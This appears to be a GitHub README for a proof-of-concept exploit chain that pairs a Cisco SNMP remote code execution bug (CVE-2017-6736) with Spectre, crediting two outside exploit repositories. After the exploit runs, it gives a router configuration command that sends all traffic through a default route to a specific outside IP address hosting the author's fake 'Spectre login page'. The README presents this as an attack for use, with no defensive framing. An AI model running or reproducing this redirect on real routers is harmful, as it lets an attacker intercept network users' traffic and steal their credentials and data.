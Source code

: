 # CiscoSpectreTakeover
A **PoC** chain exploit using the recent Cisco SMP exploit (CVE-2017-6736) to chain into Spectre (CVE-2017-5753 and CVE-2017-5715)

## Credits

Cisco RCE Exploit submodule by artkond: https://github.com/artkond/cisco-snmp-rce

JS Spectre Chrome POC by ascendr: https://github.com/ascendr/spectre-chrome

Tested on a Cisco 1841 Router.

After running the RCE exploit. As config, run:

```Router(config)> ip route 0.0.0.0 0.0.0.0 195.20.52.49```

This will force all traffic through the Spectre login page I created. 
At a later date I will add a better version that addresses actually going to websites.